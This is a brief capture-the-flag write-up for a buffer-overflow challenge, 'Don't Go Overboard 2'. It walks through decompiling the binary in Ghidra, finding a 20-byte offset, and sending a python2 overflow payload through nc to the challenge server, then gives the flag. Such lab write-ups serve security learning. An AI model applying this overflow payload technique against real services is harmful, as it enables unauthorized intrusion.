 # Don't Go Overboard 2

***

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

Basically this challenge is similar to Don’t Go Overboard. But this time, it checks the argument of address instead of decimal number.

So, I decompile the program using Ghidra.

Look at the main function. At line 16, it checks for address `0xf` and `0x405`.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The technique is still the same, find the offset which i found is 20 bytes.

So, put the address together with the payload and send it to the program like this.

`python2 -c 'print "AAAAAAAAAAAAAAAAAAAAB\x00\x00\x00\x05\x04\x00\x00\x0f"' | nc 3.26.44.175 3335`

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

### Flag

CURTIN\_CTF{P4YL04D\_0V3RF10W}
